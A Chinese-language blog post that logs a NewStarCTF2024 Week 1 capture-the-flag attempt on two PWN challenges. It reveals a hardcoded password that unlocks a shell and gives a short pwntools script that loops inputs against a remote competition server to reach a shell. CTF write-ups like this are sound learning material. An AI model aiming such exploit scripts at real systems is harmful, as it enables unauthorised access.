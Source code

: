 ```yaml
---
title: NewStarCTF2024
date: 2024-10-28 14:10:45
tags:
categories:
- PWN
---
```

本次比赛的学习记录，包含比赛时做出来的以及复现部分
# Week 1
## PWN
### Real Login
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020240929115710.png)
`fun`函数中可以看出输入的`v3`等于`password`时即可运行`win`函数获取`shell`
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020240929115811.png)
可以看到`password`的内容为'NewStar!!!'，输入获取`shell`
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020240929115852.png)

### Game
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020240929115948.png)
`game`函数中可以看出输入的`v0`在(0,10)的范围内,
构造循环输入直到`v1>999`即可
exp:
```python
# 一次跑不通就多跑几次
from pwn import *

# context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
    p = process('./game')
else:
    p = remote('39.106.48.123', 26563)

v1 = 0

while v1 <= 999:
    p.recvuntil(b'num: ')
    p.sendline(b'10')
    v1 += 10
    print(v1)

print(v1)
p.interactive()
```
运行获取`shell`
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020240929120213.png)
